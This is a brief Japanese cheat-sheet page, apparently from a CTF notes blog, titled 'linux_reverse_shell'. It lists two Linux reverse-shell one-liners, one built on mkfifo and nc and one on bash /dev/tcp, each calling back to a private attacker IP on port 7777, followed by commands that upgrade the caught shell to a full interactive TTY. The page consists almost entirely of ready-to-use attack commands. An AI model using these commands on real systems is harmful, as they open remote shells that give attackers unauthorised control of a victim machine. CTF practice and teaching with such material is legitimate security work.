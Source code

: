 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```

## リバースシェル
コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f
```
コマンド2
```sh
bash -i >& /dev/tcp/10.10.14.14/7777 0>&1
```

## シェルのアップグレード
```
script /dev/null -c bash
```

## シェルをさらにアップグレード
```
(Ctrl + z)
stty raw -echo ; fg
```
